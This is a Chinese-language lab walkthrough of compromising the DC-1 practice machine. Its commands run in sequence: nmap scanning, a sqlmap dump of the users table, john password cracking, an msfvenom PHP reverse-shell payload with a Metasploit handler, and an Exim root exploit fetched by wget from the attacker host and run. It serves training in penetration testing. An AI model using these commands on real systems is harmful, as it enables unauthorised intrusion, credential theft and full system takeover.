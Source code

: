 
# 0x00环境

攻击机：kali：192.168.1.28

靶机DC-1：192.168.1.16


# 0x01实战


## 端口扫描

```
nmap -sV -A 192.168.1.16
```

![image-20220112164641097.png](_img\assets/1652257073736-8390267d-bcfa-418b-b640-463bff073dcf.png)


## 目录扫描

![image-20220112165133362.png](_img\assets/1652257077313-fb27c613-5af4-4c9f-ac5e-d0387bfb15ff.png)

查看robots.txt文件，发现后台等登录地址

![image-20220112165231585.png](_img\assets/1652257081676-3ff7a213-754d-45b5-87c5-fbc3be4f9fc8.png)


## 漏洞发现

漏洞发现在浏览页面的时候发现URL处可能存在SQL注入漏洞<br />添加单引号报错

![image-20220112165530031.png](_img\assets/1652257088726-6bf2b76d-b555-40b4-85ee-55fa01013825.png)


## 漏洞利用

使用sqlmap暴库

```
sqlmap http://192.168.1.16/?nid=1 --dbs
```

![image-20220112165729453.png](_img\assets/1652257095565-1cf1584a-6460-4476-8c51-0e66c6d7e88c.png)

暴表

```
sqlmap http://192.168.1.16/?nid=1 -D d7db --tables
```

![image-20220112165832577.png](_img\assets/1652257098999-2e3e888b-7371-46ef-b4ac-eea0376cd2a7.png)

暴字段

```
sqlmap http://192.168.1.16/?nid=1 -D d7db -T users --columns
```

![image-20220112165916653.png](_img\assets/1652257102535-098e9a30-fe51-4441-9619-1ebe3482a0ee.png)

拖库

```
sqlmap http://192.168.1.16/?nid=1 -D d7db -T users -C name,pass --dump
```

![image-20220112165958237.png](_img\assets/1652257106014-f3bd2e15-3835-4b12-acc9-b3649b8f9bfa.png)

将密码hash保存到password.txt中，使用john破解

```
john password.txt
```

![image-20220112170512393.png](_img\assets/1652257109218-31086dcd-7269-44b9-874f-7907569cc4f1.png)

得到john的的密码turtle

使用账户john登录后台，成功

![image-20220112170645473.png](_img\assets/1652257112439-56d63d7d-064e-4757-82b0-f7e1d5123018.png)

在浏览后台的时候发现我们可以加入PHP代码

![image-20220113091509192.png](_img\assets/1652257116005-5fa12f63-12d5-478b-8c6f-879128498525.png)


## 反弹shell

使用msfvenom生成一个php木马文件

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220113091917661.png](_img\assets/1652257123879-a669f2e7-8e4f-4d97-83a6-b7ab2baa9c0f.png)

创建恶意文件文件内容为生成的木马

![image-20220113092121416.png](_img\assets/1652257127135-c78b7446-53b1-40f8-a408-47589ef056c4.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

在浏览器中访问木马文件就得知道木马文件所在的位置

![image-20220113092213870.png](_img\assets/1652257131873-07e3f95f-70a1-4767-8e29-3956f9f3f0d1.png)

通过发送邮件的方式来触发

![image-20220113093249554.png](_img\assets/1652257136266-a692299e-7c24-425e-80c8-0d939472b93c.png)

成功反弹shell

![image-20220113093312743.png](_img\assets/1652257140438-a65d0b15-740c-4ee4-844c-6a7fd64eaf02.png)


## 提权

查看系统信息

```
cat /proc/version
cat /etc/issue
```

![image-20220113093629200.png](_img\assets/1652257146731-454cd7ed-4aaa-40de-abe9-fe2d792b07df.png)

没有可以利用的

查找suid权限的程序

```
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20220113093934660.png](_img\assets/1652257156808-6d2d94cc-9815-4a70-9e03-b1c5a6ec7793.png)

查找到exim存在可以利用的提权脚本

![image-20220113095547171.png](_img\assets/1652257164333-0891365b-a775-479a-ad92-8d25e9be4cba.png)

查看目标机exim的版本

```
/usr/sbin/exim4 --version
```

![image-20220113095641118.png](_img\assets/1652257168039-abfcdb2b-74c1-4125-a625-12a01c638efe.png)

查看脚本，有两种利用方法

![image-20220113100227439.png](_img\assets/1652257171088-34914758-b022-45d2-8336-ed04ca1c1f78.png)

vi查看一下脚本格式

![image-20220113100302641.png](_img\assets/1652257174322-ee9b9139-48d4-4493-8d9e-9476f584036a.png)

修改为linux格式

```
dos2unix 46996.sh
```

![image-20220113100419582.png](_img\assets/1652257178032-6a7f1d29-2797-4ff8-9865-90c354e3acc0.png)

使用python3创建HTTP服务

```
python3 -m http.server
```

![image-20220113100604530.png](_img\assets/1652257181577-51d286cf-71a6-4db7-ae3c-dcea99d37a25.png)

进入靶机的tmp目录下载脚本

```
 wget http://192.168.1.28:8000/46996.sh
```

![image-20220113100811617.png](_img\assets/1652257184205-d8a86aab-7918-49b5-813e-7f5a25c9e357.png)

赋予脚本执行权限，并执行

```
chmod +x 46996.sh
./46996 -m netcat
```

![image-20220113102615811.png](_img\assets/1652257187652-554e621e-6a76-438e-adc9-9a0e6a4dd93f.png)


## final-flag

在root根目录找到flag

![image-20220113102838585.png](_img\assets/1652257193325-aa099054-7e22-47c4-9f7e-28cbfc338189.png)
